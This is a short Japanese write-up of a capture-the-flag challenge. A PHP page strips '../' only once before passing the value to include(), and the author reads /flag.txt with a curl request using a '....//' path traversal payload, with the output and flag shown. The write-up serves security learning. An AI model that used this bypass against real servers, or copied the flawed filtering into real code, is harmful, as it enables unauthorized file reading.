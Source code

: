 # EZ PeehPee:MerCTF:330pts
Let's start with an easy old PHP challenge to warm up!  
**URL:** [http://peehpee.merctf.com:1337/](http://peehpee.merctf.com:1337/)  

# Solution
URLが与えられる。  
アクセスするとPHPのソースコードが表示される。  
![site.png](site/site.png)  
以下の通りであった。  
```php
<?php
// flag.txt is in the root directory
highlight_file(__FILE__);

$file = str_replace('../', '', $_GET['file']);

if (isset($file)){
    include("./$file");
}
else{
    highlight_file(__FILE__);
}

print($file)
?>
```
典型的なパストラバーサル問題なようだ。  
`/flag.txt`を読めばよいとコメントにある。  
`../`が置き換えられるので、`....//`などとしてやればよい。  
```bash
$ curl 'http://peehpee.merctf.com:1337/?file=....//....//....//flag.txt'
<code><span style="color: #000000">
<span style="color: #0000BB">&lt;?php<br /></span><span style="color: #FF8000">//&nbsp;flag.txt&nbsp;is&nbsp;in&nbsp;the&nbsp;root&nbsp;directory<br /></span><span style="color: #0000BB">highlight_file</span><span style="color: #007700">(</span><span style="color: #0000BB">__FILE__</span><span style="color: #007700">);<br /><br /></span><span style="color: #0000BB">$file&nbsp;</span><span style="color: #007700">=&nbsp;</span><span style="color: #0000BB">str_replace</span><span style="color: #007700">(</span><span style="color: #DD0000">'../'</span><span style="color: #007700">,&nbsp;</span><span style="color: #DD0000">''</span><span style="color: #007700">,&nbsp;</span><span style="color: #0000BB">$_GET</span><span style="color: #007700">[</span><span style="color: #DD0000">'file'</span><span style="color: #007700">]);<br /><br />if&nbsp;(isset(</span><span style="color: #0000BB">$file</span><span style="color: #007700">)){<br />&nbsp;&nbsp;&nbsp;&nbsp;include(</span><span style="color: #DD0000">"./</span><span style="color: #0000BB">$file</span><span style="color: #DD0000">"</span><span style="color: #007700">);<br />}<br />else{<br />&nbsp;&nbsp;&nbsp;&nbsp;</span><span style="color: #0000BB">highlight_file</span><span style="color: #007700">(</span><span style="color: #0000BB">__FILE__</span><span style="color: #007700">);<br />}<br /><br />print(</span><span style="color: #0000BB">$file</span><span style="color: #007700">)<br /></span><span style="color: #0000BB">?&gt;<br /></span>
</span>
</code>Merctf{E4sy_LfI_B4cK_T0_OlD_AtTaCks}
../../../flag.txt
```
flagが得られた。  

## Merctf{E4sy_LfI_B4cK_T0_OlD_AtTaCks}